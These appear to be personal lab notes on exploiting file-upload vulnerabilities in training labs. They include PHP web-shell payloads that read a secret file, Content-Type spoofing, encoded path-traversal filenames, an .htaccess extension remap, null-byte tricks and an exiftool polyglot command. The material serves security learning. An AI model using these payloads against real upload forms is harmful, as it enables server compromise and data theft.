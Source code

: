 ## basic 

- upload avatar image -> enable image under *filter by MIME type* in burp 
	-  image was fetched using  `GET` request to `/files/avatars/<YOUR-IMAGE>`
- exploit.php:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
=> `GET /files/avatars/exploit.php HTTP/1.1`
# Exploiting flawed validation 

## Flawed file type validation

- -> response indicates you are only allowed with `image/jpeg` or `image/png` 
- find the post request to `/my-account/avatar` 
- change the `Content-Type` to `image/jpeg`
## Preventing file execution in user-accessible directories

- change the `filename` to include a [[WEB/vulnerabilities/Path Traversal/concepts|directory traversal]] sequence:
    - `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
    	- response: `The file avatars/exploit.php has been uploaded.` -> failed
    - Obfuscate the sequence -> `filename="..%2fexploit.php"`
    	- response: `The file avatars/../exploit.php has been uploaded.` -> success
- `GET /files/avatars/..%2fexploit.php` or `GET /files/exploit.php`
## Insufficient blacklisting

### Overriding the server configuration

apache: 
`LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php`

IIS:
`<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>`
##### senario
-  in `POST /my-account/avatar` 
	- value of  `filename` ->  `.htaccess`
	- `Content-Type` header -> `text/plain`
	- content of the file -> `AddType application/x-httpd-php .l33t` =>  maps .l33t extension to PHP MIME.
- again in  in `POST /my-account/avatar
	- `filename` -> from `exploit.php` to `exploit.l33`
- `GET /files/avatars/exploit.l33t`
### Obfuscating file extensions

-  in `POST /my-account/avatar` 
	-  `filename="exploit.php%00.jpg"`
		- `exploit.php` in http response -> null byte stripped
- `GET /files/avatars/exploit.php`
## Flawed validation of the file's contents

```shell
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
- adds the PHP payload to the image's `Comment`
- saves the image with a `.php` extension
- `GET /files/avatars/polyglot.php` => `START [secret text] END`